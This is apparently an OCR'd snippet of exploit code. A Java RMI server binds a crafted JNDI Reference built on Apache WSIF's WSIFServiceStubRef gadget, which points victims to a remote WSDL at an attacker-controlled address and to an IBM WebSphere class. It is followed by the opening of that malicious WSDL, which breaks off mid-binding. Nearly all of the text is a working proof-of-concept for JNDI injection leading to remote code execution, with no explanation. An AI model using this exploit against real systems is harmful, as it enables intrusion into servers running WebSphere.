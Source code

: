 ```java

//rmi Server
package org.example;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.wsif.naming.WSIFServiceStubRef;

import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Main {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference ref = new Reference(WSIFServiceStubRef.class.getName(), (String) null, (String) null);
        ref.add(new StringRefAddr("wsdlLoc", "http://192.168.18.1:8080/poc.wsdl"));
        ref.add(new StringRefAddr("serviceNS", null));
        ref.add(new StringRefAddr("serviceName", null));
        ref.add(new StringRefAddr("portTypeNS", "http://wsifservice.addressbook/"));
        ref.add(new StringRefAddr("portTypeName", "Gadget"));
        ref.add(new StringRefAddr("preferredPort", "JavaPort"));
        ref.add(new StringRefAddr("className", "com.ibm.ws.batch.CounterHome"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("poc", referenceWrapper);

    }

}
```
```xml
<?xml version="1.0" ?>

<definitions targetNamespace="http://wsifservice.addressbook/"
             xmlns:tns="http://wsifservice.addressbook/"
             xmlns:xsd="http://www.w3.org/1999/XMLSchema"
             xmlns:format="http://schemas.xmlsoap.org/wsdl/formatbinding/"
             xmlns:java="http://schemas.xmlsoap.org/wsdl/java/"
             xmlns="http://schemas.xmlsoap.org/wsdl/">

    <!-- type defs -->

    <!-- message declns -->
    <message name="findByPrimaryKeyRequest">
        <part name="el" type="xsd:string"/>
    </message>

    <message name="findByPrimaryKeyResponse">
        <part name="counterObject" type="xsd:object"/>
    </message>

    <!-- port type declns -->
    <portType name="Gadget">
        <operation name="findByPrimaryKey">
            <input message="tns:findByPrimaryKeyRequest"/>
            <output message="tns:findByPrimaryKeyResponse"/>
        </operation>
    </portType>

    <!-- binding declns -->
    <binding name="JavaBinding" type="tns:Gadget">
        <java:binding/>
```